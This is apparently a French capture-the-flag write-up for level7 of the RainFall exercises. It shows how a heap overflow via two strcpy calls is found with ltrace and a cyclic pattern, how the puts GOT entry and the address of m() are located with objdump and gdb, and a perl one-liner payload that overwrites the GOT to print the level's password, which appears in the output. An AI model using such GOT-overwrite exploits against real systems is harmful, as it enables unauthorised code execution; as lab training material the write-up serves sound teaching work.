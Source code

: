 # level7

Le programme met le mot de passe dans une variable globale `c` mais n'en fait rien, en revanche, on voit que la fonction `m` pourrait potentiellement l'afficher

On va donc devoir trouver un moyen de faire un appel à `m()` en utilisant un buffer overflow avec les deux arguments copiés par `strcpy`

On commence par trouver l'offset de l'overflow en utilisant le même outil que pour les exercices précédents:
```sh
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
__libc_start_main(0x8048521, 2, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                        = 0x0804a008
malloc(8)                                                        = 0x0804a018
malloc(8)                                                        = 0x0804a028
malloc(8)                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)        = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
On trouve un offset de 20 en passant l'adresse donnée en argument au 2ème strcpy

Pour construire not payload, on va utiliser un GOT overwrite comme pour les exercices précédents, on va donc avoir besoin de l'adresse de la fonction que l'on veut overwrite, à savoir `puts`

```sh
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

On récupère ensuite l'adresse de la fonction `m()` avec gdb 
```sh
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:    push   %ebp
   0x080484f5 <+1>:    mov    %esp,%ebp
   0x080484f7 <+3>:    sub    $0x18,%esp
   0x080484fa <+6>:    movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
```

On connait désormais l'adresse à overwrite: `0x08049928` et l'adresse par laquelle on veut la remplacer: `0x080484f4`, ainsi que l'offset: `20`

Notre payload sera donc: padding (20 characteres) + addresse GOT + adresse de `m()`

L'adresse de `m()` sera donc dans le 2ème argument.

```sh
level7@RainFall:~$ ./level7 $(perl -e 'print "A"x20 ."\x28\x99\x04\x08";' ) $(perl -e 'print "\xf4\x84\x04\x08";') 
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1708682178
```

